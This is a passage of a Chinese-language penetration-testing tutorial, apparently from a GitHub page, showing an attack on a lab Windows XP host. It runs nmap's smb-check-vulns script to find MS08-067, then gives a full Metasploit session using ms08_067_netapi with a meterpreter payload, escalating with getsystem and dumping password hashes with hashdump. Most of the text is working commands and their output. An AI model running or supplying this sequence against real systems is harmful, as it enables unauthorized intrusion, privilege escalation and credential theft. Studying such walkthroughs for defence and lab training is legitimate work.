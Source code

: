 ```
nmap --script=smb-check-vulns.nse -v -v -p 445,139 -iL smb -oA ms08 less ms08.nmap <-- 使用 NMAP 的 smb-check-vulns 脚本识别下
...snip...
Nmap scan report for shelob-squared (192.168.1.103) 
Host is up (0.00042s latency). 
Scanned at 2013-09-16 21:52:32 CDT for 55s 
PORT STATE SERVICE 
139/tcp open netbios-ssn 
445/tcp open microsoft-ds 
MAC Address: 00:0C:29:E3:25:78 (VMware)

Host script results: 
| smb-check-vulns: 
| MS08-067: VULNERABLE      <--bingo..有漏洞
| Conficker: Likely CLEAN 
| SMBv2 DoS (CVE-2009-3103): NOT VULNERABLE 
| MS06-025: NO SERVICE (the Ras RPC service is inactive) 
|_ MS07-029: NO SERVICE (the Dns Server RPC service is inactive)
...snip... 
```

nmap 的 NSE 脚本是用 LUA 语言写的,把这些 NSE 都过一遍,对渗透很有帮助哦,尤其是在 LINUX 平台,win 平台下除了有几种扫描方式利用不了,NSE 脚本照样可以用,不过 LINUX 上默认安装的 NMAP 版本都比较低了,你不能直接放 NSE 到目录,注意看库之间的依赖关系,才能利用,上次看 wooyun 的 drops,livers 大牛回复我们组的 Anthr@X 牛的 InsightScan.py,说用 nse 也实现了一个,我只想说,你能偷偷发我一份吗?

接下来,还是用 metasploit 溢出，不知道对中文系统效果怎么样，我没有试过 =.=

```
msf > use windows/smb/ms08_067_netapi 
msf exploit(ms08_067_netapi) > set RHOST 192.168.1.103 
RHOST => 192.168.1.103 
msf exploit(ms08_067_netapi) > set TARGET 0 
TARGET => 0 
msf exploit(ms08_067_netapi) > set LHOST 192.168.1.215 
LHOST => 192.168.1.215 
msf exploit(ms08_067_netapi) > set PAYLOAD windows/meterpreter/bind_tcp 
PAYLOAD => windows/meterpreter/bind_tcp 
msf exploit(ms08_067_netapi) > exploit

[*] Started bind handler 
[*] Automatically detecting the target... 
[*] Fingerprint: Windows XP - Service Pack 2 - lang:English 
[*] Selected Target: Windows XP SP2 English (AlwaysOn NX) 
[*] Attempting to trigger the vulnerability... 
[*] Sending stage (752128 bytes) to 192.168.1.103 
[*] Meterpreter session 1 opened (192.168.1.215:33354 -> 192.168.1.103:4444) at 2013-09-16 21:54:15 -0500

meterpreter > getsystem 
...got system (via technique 1). 
meterpreter > sysinfo 
Computer : SHELOB-SQUARED 
OS : Windows XP (Build 2600, Service Pack 2). 
Architecture : x86 
System Language : en_US 
Meterpreter : x86/win32

meterpreter > run hashdump 
[*] Obtaining the boot key... 
[*] Calculating the hboot key using SYSKEY 48c76bfa334c4c21edd1154db541c2c2... 
[*] Obtaining the user list and keys... 
[*] Decrypting user keys... 
[*] Dumping password hints...

```
